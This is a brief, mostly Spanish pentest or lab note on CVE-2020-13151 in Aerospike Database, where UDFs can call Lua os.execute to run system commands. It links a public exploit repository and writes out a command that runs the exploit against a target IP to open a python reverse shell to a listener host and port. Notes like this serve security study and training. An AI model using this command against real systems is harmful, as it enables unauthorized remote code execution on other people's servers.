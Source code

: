 ## DESCRIPTION

Aerospike Database versions before 5.1.0.3 permitted user-defined functions (UDF) to call the `os.execute` Lua function. This module creates a UDF utilising this function to execute arbitrary operating system commands with the privileges of the user running the Aerospike service. This module does not support authentication; however Aerospike Database Community Edition does not enable authentication by default. This module has been tested successfully on Ubuntu with Aerospike Database Community Edition versions 4.9.0.5, 4.9.0.11 and 5.0.0.10.

Enumerando directorios hemos encontrado una web que indica qeu se usa:

![[Pasted image 20230603120615.png]]

![[Pasted image 20230603120622.png]]

#### Mas información
* Exploit que fuciona: https://github.com/b4ny4n/CVE-2020-13151


## EXPLOITATION

Clonamos el repositorio y probamos:

Ejecutamos:

```
python3 cve2020-13151.py --ahost=192.168.200.143 --pythonshell --lhost 192.168.45.228 --lport 443 
```

![[Pasted image 20230603120930.png]]


**!!NOTA IMPORTANTE!!** 
El exploit de Searchsploit: no me funicona

## MACHINES

* Hack The Box: 


**!!NOTA IMPORTANTE!!** 